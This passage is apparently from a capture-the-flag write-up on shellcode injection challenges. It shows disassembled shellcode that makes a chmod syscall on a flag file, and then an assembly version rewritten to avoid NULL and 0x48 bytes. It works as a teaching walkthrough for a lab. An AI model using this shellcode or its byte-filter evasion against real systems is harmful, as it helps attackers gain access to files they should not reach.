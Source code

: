 * The rest of the steps and code remains the same.



## level 3

> This challenge requires that your shellcode have no NULL bytes!

* We can use `objdump` to see the hexadecimal representation of our code.

```
~$ objdump -d shellcode

; -- snip --
0000000000001000 <_start>:
    1000:       48 8d 3d 20 00 00 00    lea    0x20(%rip),%rdi        # 1027 <flag>
    1007:       48 c7 c6 04 00 00 00    mov    $0x4,%rsi
    100e:       48 c7 c0 5a 00 00 00    mov    $0x5a,%rax
    1015:       0f 05                   syscall 
    1017:       48 c7 c7 00 00 00 00    mov    $0x0,%rdi
    101e:       48 c7 c0 3c 00 00 00    mov    $0x3c,%rax
    1025:       0f 05                   syscall 

0000000000001027 <flag>:
    1027:       2f                      (bad)  
    1028:       66 6c                   data16 insb (%dx),%es:(%rdi)
    102a:       61                      (bad)  
    102b:       67                      addr32
```

* As we can see, our code has a bunch of `NULL` bytes.
* There's multiple ways to ensure that our code doesn't have null bytes, easiest being the use of smaller registers.
* One challenge we will face is providing the FILENAME as an argument for our `chmod` syscall.
* We can work around this by pushing the "galf" onto the stack (Keep in mind memory is stored in little endian format so "flag" is stored as "galf").

```armasm
# Chmod syscall
push 0x67616c66 <---- galf
push rsp
pop rdi
mov sil, 4
mov al, 0x5a
syscall
```



## level 4

> This challenge requires that your shellcode have no H bytes!

* `H bytes` are represented as `0x48`.
* They are used to denote instructions that operate in `64-bit` context.
* Fortunately our code form [level\_3](shellcode-injection.md#level-3) works just fine.
